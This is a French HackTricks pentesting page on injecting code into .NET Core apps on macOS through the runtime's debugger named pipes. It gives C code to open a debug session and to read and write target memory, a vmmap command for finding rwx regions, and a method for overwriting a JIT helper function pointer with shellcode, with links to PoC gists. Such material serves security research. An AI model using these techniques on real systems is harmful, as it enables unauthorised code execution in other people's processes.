 # Injection d'applications .Net sur macOS

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Travaillez-vous dans une **entreprise de cybersécurité** ? Voulez-vous voir votre **entreprise annoncée dans HackTricks** ? Ou voulez-vous avoir accès à la **dernière version de PEASS ou télécharger HackTricks en PDF** ? Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFT**](https://opensea.io/collection/the-peass-family)
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* **Rejoignez le** [**💬**](https://emojipedia.org/speech-balloon/) [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR au** [**repo hacktricks**](https://github.com/carlospolop/hacktricks) **et au** [**repo hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Débogage de .NET Core <a href="#net-core-debugging" id="net-core-debugging"></a>

### **Établir une session de débogage** <a href="#net-core-debugging" id="net-core-debugging"></a>

[**dbgtransportsession.cpp**](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/shared/dbgtransportsession.cpp) est responsable de la gestion de la **communication** entre le débogueur et le débogueur.\
Il crée deux tubes nommés par processus .Net dans [dbgtransportsession.cpp#L127](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/shared/dbgtransportsession.cpp#L127) en appelant [twowaypipe.cpp#L27](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/debug-pal/unix/twowaypipe.cpp#L27) (l'un se terminera par **`-in`** et l'autre par **`-out`** et le reste du nom sera identique).

Ainsi, si vous accédez au répertoire **`$TMPDIR`** de l'utilisateur, vous pourrez trouver des **fifos de débogage** que vous pourrez utiliser pour déboguer des applications .Net :

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

La fonction [**DbgTransportSession::TransportWorker**](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/shared/dbgtransportsession.cpp#L1259) gérera la communication depuis un débogueur.

La première chose qu'un débogueur doit faire est de **créer une nouvelle session de débogage**. Cela se fait en **envoyant un message via le tube de sortie** commençant par une structure `MessageHeader`, que nous pouvons récupérer à partir de la source .NET :
```c
struct MessageHeader
{
MessageType   m_eType;        // Type of message this is
DWORD         m_cbDataBlock;  // Size of data block that immediately follows this header (can be zero)
DWORD         m_dwId;         // Message ID assigned by the sender of this message
DWORD         m_dwReplyId;    // Message ID that this is a reply to (used by messages such as MT_GetDCB)
DWORD         m_dwLastSeenId; // Message ID last seen by sender (receiver can discard up to here from send queue)
DWORD         m_dwReserved;   // Reserved for future expansion (must be initialized to zero and
// never read)
union {
struct {
DWORD         m_dwMajorVersion;   // Protocol version requested/accepted
DWORD         m_dwMinorVersion;
} VersionInfo;
...
} TypeSpecificData;

BYTE                    m_sMustBeZero[8];
}
```
Dans le cas d'une nouvelle demande de session, cette structure est remplie comme suit :
```c
static const DWORD kCurrentMajorVersion = 2;
static const DWORD kCurrentMinorVersion = 0;

// Set the message type (in this case, we're establishing a session)
sSendHeader.m_eType = MT_SessionRequest;

// Set the version
sSendHeader.TypeSpecificData.VersionInfo.m_dwMajorVersion = kCurrentMajorVersion;
sSendHeader.TypeSpecificData.VersionInfo.m_dwMinorVersion = kCurrentMinorVersion;

// Finally set the number of bytes which follow this header
sSendHeader.m_cbDataBlock = sizeof(SessionRequestData);
```
Une fois construit, nous **l'envoyons à la cible** en utilisant l'appel système `write`:
```c
write(wr, &sSendHeader, sizeof(MessageHeader));
```
Suivant notre en-tête, nous devons envoyer une structure `sessionRequestData` qui contient un GUID pour identifier notre session :
```c
// All '9' is a GUID.. right??
memset(&sDataBlock.m_sSessionID, 9, sizeof(SessionRequestData));

// Send over the session request data
write(wr, &sDataBlock, sizeof(SessionRequestData));
```
Après avoir envoyé notre demande de session, nous **lisons depuis le tube `out` un en-tête** qui indiquera **si** notre demande d'établissement d'une session de débogage a été **réussie** ou non :
```c
read(rd, &sReceiveHeader, sizeof(MessageHeader));
```
### Lire la mémoire

Avec une session de débogage établie, il est possible de **lire la mémoire** en utilisant le type de message [`MT_ReadMemory`](https://github.com/dotnet/runtime/blob/f3a45a91441cf938765bafc795cbf4885cad8800/src/coreclr/src/debug/shared/dbgtransportsession.cpp#L1896). Pour lire une partie de la mémoire, le code principal nécessaire serait :
```c
bool readMemory(void *addr, int len, unsigned char **output) {

*output = (unsigned char *)malloc(len);
if (*output == NULL) {
return false;
}

sSendHeader.m_dwId++; // We increment this for each request
sSendHeader.m_dwLastSeenId = sReceiveHeader.m_dwId; // This needs to be set to the ID of our previous response
sSendHeader.m_dwReplyId = sReceiveHeader.m_dwId; // Similar to above, this indicates which ID we are responding to
sSendHeader.m_eType = MT_ReadMemory; // The type of request we are making
sSendHeader.TypeSpecificData.MemoryAccess.m_pbLeftSideBuffer = (PBYTE)addr; // Address to read from
sSendHeader.TypeSpecificData.MemoryAccess.m_cbLeftSideBuffer = len; // Number of bytes to write
sSendHeader.m_cbDataBlock = 0;

// Write the header
if (write(wr, &sSendHeader, sizeof(sSendHeader)) < 0) {
return false;
}

// Read the response header
if (read(rd, &sReceiveHeader, sizeof(sSendHeader)) < 0) {
return false;
}

// Make sure that memory could be read before we attempt to read further
if (sReceiveHeader.TypeSpecificData.MemoryAccess.m_hrResult != 0) {
return false;
}

memset(*output, 0, len);

// Read the memory from the debugee
if (read(rd, *output, sReceiveHeader.m_cbDataBlock) < 0) {
return false;
}

return true;
}
```
Le code de preuve de concept (POC) se trouve [ici](https://gist.github.com/xpn/95eefc14918998853f6e0ab48d9f7b0b).

### Écrire dans la mémoire
```c
bool writeMemory(void *addr, int len, unsigned char *input) {

sSendHeader.m_dwId++; // We increment this for each request
sSendHeader.m_dwLastSeenId = sReceiveHeader.m_dwId; // This needs to be set to the ID of our previous response
sSendHeader.m_dwReplyId = sReceiveHeader.m_dwId; // Similar to above, this indicates which ID we are responding to
sSendHeader.m_eType = MT_WriteMemory; // The type of request we are making
sSendHeader.TypeSpecificData.MemoryAccess.m_pbLeftSideBuffer = (PBYTE)addr; // Address to write to
sSendHeader.TypeSpecificData.MemoryAccess.m_cbLeftSideBuffer = len; // Number of bytes to write
sSendHeader.m_cbDataBlock = len;

// Write the header
if (write(wr, &sSendHeader, sizeof(sSendHeader)) < 0) {
return false;
}

// Write the data
if (write(wr, input, len) < 0) {
return false;
}

// Read the response header
if (read(rd, &sReceiveHeader, sizeof(sSendHeader)) < 0) {
return false;
}

// Ensure our memory write was successful
if (sReceiveHeader.TypeSpecificData.MemoryAccess.m_hrResult != 0) {
return false;
}

return true;

}
```
Le code POC utilisé pour cela peut être trouvé [ici](https://gist.github.com/xpn/7c3040a7398808747e158a25745380a5).

### Exécution de code .NET Core <a href="#net-core-code-execution" id="net-core-code-execution"></a>

La première chose à faire est d'identifier, par exemple, une région de mémoire avec **`rwx`** en cours d'exécution pour enregistrer le shellcode à exécuter. Cela peut être facilement fait avec :
```bash
vmmap -pages [pid]
vmmap -pages 35829 | grep "rwx/rwx"
```
Ensuite, pour déclencher l'exécution, il serait nécessaire de connaître un endroit où un pointeur de fonction est stocké pour le remplacer. Il est possible de remplacer un pointeur dans la **Table des fonctions dynamiques (TFD)**, utilisée par le runtime .NET Core pour fournir des fonctions d'aide à la compilation JIT. Une liste des pointeurs de fonction pris en charge peut être trouvée dans [`jithelpers.h`](https://github.com/dotnet/runtime/blob/6072e4d3a7a2a1493f514cdf4be75a3d56580e84/src/coreclr/src/inc/jithelpers.h).

Dans les versions x64, cela est simple en utilisant la technique de **recherche de signature** similaire à mimikatz pour rechercher dans **`libcorclr.dll`** une référence au symbole **`_hlpDynamicFuncTable`**, que nous pouvons déréférencer :

<figure><img src="../../../.gitbook/assets/image (1) (3).png" alt=""><figcaption></figcaption></figure>

Il ne reste plus qu'à trouver une adresse à partir de laquelle commencer notre recherche de signature. Pour cela, nous utilisons une autre fonction de débogueur exposée, **`MT_GetDCB`**. Cela renvoie plusieurs informations utiles sur le processus cible, mais dans notre cas, nous nous intéressons à un champ renvoyant l'**adresse d'une fonction d'aide**, **`m_helperRemoteStartAddr`**. En utilisant cette adresse, nous savons exactement **où `libcorclr.dll` est situé** dans la mémoire du processus cible et nous pouvons commencer notre recherche de la TFD.

En connaissant cette adresse, il est possible de remplacer le pointeur de fonction par notre propre shellcode.

Le code POC complet utilisé pour l'injection dans PowerShell peut être trouvé [ici](https://gist.github.com/xpn/b427998c8b3924ab1d63c89d273734b6).

## Références

* Cette technique a été tirée de [https://blog.xpnsec.com/macos-injection-via-third-party-frameworks/](https://blog.xpnsec.com/macos-injection-via-third-party-frameworks/)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Travaillez-vous dans une **entreprise de cybersécurité** ? Voulez-vous voir votre **entreprise annoncée dans HackTricks** ? Ou voulez-vous avoir accès à la **dernière version de PEASS ou télécharger HackTricks en PDF** ? Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* **Rejoignez le** [**💬**](https://emojipedia.org/speech-balloon/) [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR au** [**repo hacktricks**](https://github.com/carlospolop/hacktricks) **et au** [**repo hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
